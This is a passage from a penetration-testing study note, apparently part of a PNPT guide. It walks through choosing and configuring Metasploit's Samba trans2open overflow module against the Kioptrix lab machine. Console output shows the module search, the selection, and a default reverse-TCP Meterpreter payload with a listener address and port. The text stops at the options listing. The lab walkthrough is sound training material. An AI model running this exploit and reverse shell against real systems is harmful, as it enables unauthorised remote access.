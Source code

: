 
# Gaining Root w/ Metasploit
Before we pop a shell on Kioptrix, let's choose an exploit we want to use. Going back to what we found *via [searchsploit](cybersecurity/tools/exploitation/searchsploit.md)* we can even find one which has a *known [Metasploit](/cybersecurity/tools/metasploit.md) module*:
![](/nested-repos/PNPT-study-guide/PNPT-pics/gaining-root-1.png)
Since it shows up so often in the output, let's try [trans2open](/cybersecurity/vulnerabilities/trans2.md) 
## Running Metasploit
### `search`
Once we've executed `msfconsole` and we're in the Metasploit console, we can search for trans2open w/ the `search` command:
```bash
msf6 > search trans2open

Matching Modules
================
#  Name                              Disclosure Date  Rank   Check  Description
-  ----                              ---------------  ----   -----  -----------
0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open 
	Overflow (*BSD x86)
1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open 
	Overflow (Linux x86)
2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open 
	Overflow (Mac OS X PPC)
3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open 
	Overflow (Solaris SPARC)

Interact with a module by name or index. For example info 3, use 3 or use exploit/solaris/samba/trans2open
```
### `use`
From this list we can use the `use` command to choose a specific module and enter its context (make sure to choose one which matches the target):
```bash
msf6 > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > 
```
### `options`
Now that our context is set, we can use `options` to see what configurable variables there are for this module:
```bash
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see <link>
   RPORT   139              yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.4         yes       The listen address (an interface may be 
									   specified)
   LPORT  4444             yes       The listen port

Exploit target:
   Id  Name
```